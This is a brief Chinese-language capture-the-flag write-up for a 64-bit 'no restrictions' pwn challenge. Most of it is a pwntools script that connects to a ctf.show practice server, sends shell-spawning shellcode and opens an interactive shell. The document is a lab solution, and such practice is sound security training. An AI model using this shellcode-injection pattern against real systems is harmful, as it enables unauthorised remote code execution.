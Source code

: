 # 挑战简介
64位 无限制

# 思路
一样的思路，不过记得设置一下环境，设置为amd64得arch架构

```
from pwn import *
from LibcSearcher import *
context.log_level = "debug"

context(os='linux', arch='amd64', log_level='debug')

p = remote("pwn.challenge.ctf.show",28291)
elf = ELF('D:\edge 下载\pwn')

shellcode = asm(shellcraft.sh())

#p.recvuntil("")

payload = shellcode

p.sendline(payload)

p.interactive()

```
